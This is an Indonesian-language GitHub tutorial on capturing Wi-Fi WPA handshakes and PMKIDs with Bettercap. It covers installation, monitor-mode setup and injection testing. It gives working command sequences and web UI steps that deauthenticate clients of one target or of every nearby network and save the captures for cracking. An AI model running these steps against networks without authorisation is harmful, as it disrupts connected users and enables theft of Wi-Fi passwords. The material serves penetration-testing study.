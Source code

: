 ## Capture Handshake dan PMKID Menggunakan Bettercap

![bettercap logo](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/bettercap/img/bettercap.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
   bettercap -version
   ```

2. Menggunakan Go:

   Instalasi menggunakan Go harus sudah terinstal Go versi: `go1.24.7` atau lebih baru.
   
   ```
   sudo apt-get update
   sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
   go install github.com/bettercap/bettercap/v2@latest
   sudo mv ~/go/bin/bettercap /usr/local/bin/
   bettercap -version
   ```

Untuk informasi lebih lengkap, bisa dilihat di sini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

### 1. Mode Interaktif

Mode interaktif adalah mode di Bettercap di mana Anda menggunakan sesi interaktif dan memasukkan perintah secara manual satu per satu.

```
sudo bettercap
```

> Jika muncul error `No active interfaces found.`, gunakan opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

Caplet adalah sekumpulan perintah Bettercap yang disimpan dalam file berekstensi `.cap`. Fungsinya untuk mengotomatisasi eksekusi perintah-perintah di Bettercap, sehingga tidak perlu mengetik perintah satu per satu secara manual.

```
sudo bettercap -caplet [file_caplet]
```

> Jika muncul error `No active interfaces found.`, gunakan opsi `-iface [interface]`.

Contoh file capletnya ada di sini: [https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/bettercap/caplet.cap](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/bettercap/caplet.cap)

### 3. Mode Web UI

Mode Web UI adalah mode di Bettercap yang menyediakan antarmuka web, sehingga kita bisa menggunakan Bettercap melalui browser.

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link di bagian `web ui starting on`, yaitu `http://127.0.0.1:80`, kemudian klik kanan dan pilih `Open Link`:

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%203.png)
4. Pilih interface yang ingin digunakan dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%204.png)
5. Mulai scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, yaitu:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan [dBm](https://en.wikipedia.org/wiki/DBm).
   - `ESSID`: Nama Wi-Fi.
   - `BSSID`: Alamat MAC unik dari AP.
   - `Vendor`: Produsen AP berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang dipakai oleh Wi-Fi.
   - `Ch`: Channel yang dipakai oleh AP.
   - `Clients`: Jumlah client yang terhubung ke AP.
   - `Sent`: Jumlah paket data yang dikirim dari client ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh client.
   - `Seent`: Jumlah paket yang terdeteksi dari client atau AP selama proses scanning.
8. Pilih BSSID target yang ingin diserang, lalu klik menu dropdown:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%207.png)
9. Tersedia dua jenis serangan yang dapat dilakukan:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%208.png)

   Jika ingin Capture Handshake, klik `Deauthenticate Client`. Jika ingin Capture PMKID, klik `Associate`. Dalam contoh ini, kita akan pilih `Capture Handshake`.
   
   > **Catatan:**
   >
   > - Capture Handshake: Harus terdapat 1 client yang aktif/terhubung.
   > - Capture PMKID: Tidak semua router mendukung PMKID.
10. Setelah klik `Deauthenticate Client`, tunggu hingga handshake berhasil di-capture. Handshake dianggap berhasil jika muncul ikon `kunci merah` di bagian `Encryption` dan muncul notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%2010.png)
12. Klik salah satu dari 3 `Type` berwarna merah di bagian pesan `Captured handshake for...`:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%2011.png)
13. Dari gambar ini, terlihat bahwa file handshake disimpan di direktori `/root` dengan nama file `bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%2012.png)


## Video Demonstrasi

1. Mode Interaktif:  
   [https://youtu.be/OkomTAxNN_c?si=QN9x1fDyajX5Zk4n](https://youtu.be/OkomTAxNN_c?si=QN9x1fDyajX5Zk4n)
2. Mode Web UI:  
   [https://youtu.be/ThtlbknSAZ4?si=yTBjvBOGt5RrBjtQ](https://youtu.be/ThtlbknSAZ4?si=yTBjvBOGt5RrBjtQ)
